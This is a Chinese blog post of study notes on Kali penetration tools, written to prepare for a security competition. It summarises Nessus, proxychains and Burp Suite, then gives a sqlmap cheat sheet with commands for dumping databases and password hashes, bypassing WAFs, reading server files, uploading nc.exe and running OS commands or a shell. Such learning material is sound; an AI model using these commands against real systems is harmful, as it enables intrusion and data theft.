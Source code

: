 ```yaml
---
title: Kali相关渗透工具学习笔记
time: 2016.05.23 12:47:00
layout: post
tags:
- python
- 工具
- Kali
excerpt:  这个礼拜要参加蓝盾杯的比赛😂然而，蓝盾杯炒鸡坑，只能用官方的虚拟机，而且还不能联网，比赛的时间还炒鸡短！所以，这几天打算熟悉下工具

---
```


# Nessus

Nessus是一个功能强大而又易于使用的远程安全扫描器，它不仅免费而 且更新极快。安全扫描器的功能是对指定网络进行安全检查，找出该网络是否存在有导致对手攻击的安全漏洞。该系统被设计为client/sever模式，服 务器端负责进行安全检查，客户端用来配置管理服务器端。在服务端还采用了plug-in的体系，允许用户加入执行特定功能的插件，这插件可以进行更快速和 更复杂的安全检查。在Nessus中还采用了一个共享的信息接口，称之知识库，其中保存了前面进行检查的结果。检查的结果可以HTML、纯文本、 LaTeX（一种文本文件格式）等几种格式保存。 
# proxychain

proxychain是一款功能强大的网络代理工具，允许TCP和DNS通过代理隧道，支持HTTP、SOCK4、SOCK5类型的代理服务器，并且可以配置多个代理。具体请查看网络。

# TrueCrypt
该工具为一款目录加密工具，这个应该也用不到 － －

# Burp Suite
## 简介
Burp Suite 是用于攻击web 应用程序的集成平台。它包含了许多工具，并为这些工具设计了许多接口，以促进加快攻击应用程序的过程。所有的工具都共享一个能处理并显示HTTP 消息，持久性，认证，代理，日志，警报的一个强大的可扩展的框架。

##工具箱：

（1）Proxy——是一个拦截HTTP/S的代理服务器，作为一个在浏览器和目标应用程序之间的中间人，允许你拦截，查看，修改在两个方向上的原始数据流。

（2）Spider——是一个应用智能感应的网络爬虫，它能完整的枚举应用程序的内容和功能。

（3）Scanner[仅限专业版]——是一个高级的工具，执行后，它能自动地发现web 应用程序的安全漏洞。

（4）Intruder——是一个定制的高度可配置的工具，对web应用程序进行自动化攻击，如：枚举标识符，收集有用的数据，以及使用fuzzing 技术探测常规漏洞。

（5）Repeater——是一个靠手动操作来补发单独的HTTP 请求，并分析应用程序响应的工具。

（6）Sequencer——是一个用来分析那些不可预知的应用程序会话令牌和重要数据项的随机性的工具。

（7）Decoder——是一个进行手动执行或对应用程序数据者智能解码编码的工具。

（8）Comparer——是一个实用的工具，通常是通过一些相关的请求和响应得到两项数据的一个可视化的“差异”。

# sqlmap
备注：(注入的时候最好把设定-v 3 -l 3)

1. 检索当前数据库和当前用户
	```bash
	sqlmap -u target.com --cookie="1231" -b --current-db -current-user
	```
	```-b:获取DBMS banner 还有--os用于探测数据库服务器系统 --is-dba 判断当前用户是否为管理 --users 列出所有管理用户 --passwords列出并破解数据库用户的hash --privileges 列出数据库管理员权限```
2. 挖取数据库 --dbs（－D） 挖取表 --tables（－T） 挖取列 --columns（—C） 挖掘详细内容 --dump
3. 读文件 -r test.txt 这里加载HTTP请求 加载文本为-m
4. 载入过滤插件  --tamper（这个一般用于绕过waf） 这个具体参照：[http://drops.wooyun.org/tools/4760](http://drops.wooyun.org/tools/4760) 加载多个可用逗号隔开即可
	```python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3```
5. 伪静态注入  有些web服务器进行了url rewrite或者网站是伪静态的，无法直接提供测试参数，这样子可以使用*来代替要测试的参数。
6. 请求延迟  在注入过程中请求太频繁的话可能会被防火墙拦截，这时候--delay参数就起作用了。可以设定两次HTTP请求间的延时。有的web程序会在多次错误访问后屏蔽所有请求，这样就导致之后所有的测试无法进行，绕过这个策略可以使用--safe-url，每隔一段时间去访问一个正常的页面。
7. post注入  有两种方法来进行post注入，一种是使用--data参数，将post的key和value用类似GET方式来提交。二是使用-r参数，sqlmap读取用户抓到的POST请求包，来进行POST注入检测。
```python sqlmap.py -u "http://www.target.com/vuln.php" --data="id=1" -f --banner --dbs --users```
8. 拆分字符  --param-del

	```python sqlmap.py -u "http://www.target.com/vuln.php" --data="query=foobar;id=1" --param-del=";" -f --banner --dbs --users```

9. 避免过多的错误请求被屏蔽
```
1、--safe-url：提供一个安全不错误的连接，每隔一段时间都会去访问一下。
2、--safe-freq：提供一个安全不错误的连接，每次测试请求之后都会再访问一边安全连接。
```
10. 有时候需要在一些环境的前面或者后面加一些字符，保证payload正常运行，就需要参数--prefix,--suffix
	例如，代码中是这样调用数据库的：
	```$query = "SELECT * FROM users WHERE id=(’" . $_GET[’id’] . "’) LIMIT 0, 1"; ```
	这时你就需要--prefix和--suffix参数了：
	```python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "’)" --suffix "AND (’abc’=’abc"```
	这样执行的SQL语句变成：
	```$query = "SELECT * FROM users WHERE id=(’1’) <PAYLOAD> AND (’abc’=’abc’) LIMIT 0, 1"; ```
11. 有时候--tables 无法获取到数据库表时，可用使用--common-tables爆破表名 同理 --common-columns 你懂的
12. 如果当前用户有权读取文件，可用使用--file-read
	
```python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther" \
--file-read "C:/example.exe" -v 1```
同理 文件上传到服务器操作 --file-write,--file-dest
```python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" --file-write \
"/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1
```
13. 运行操作系统命令 --os-cmd,--os-shell
	```python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" \
--os-cmd id -v 1	```
-

----

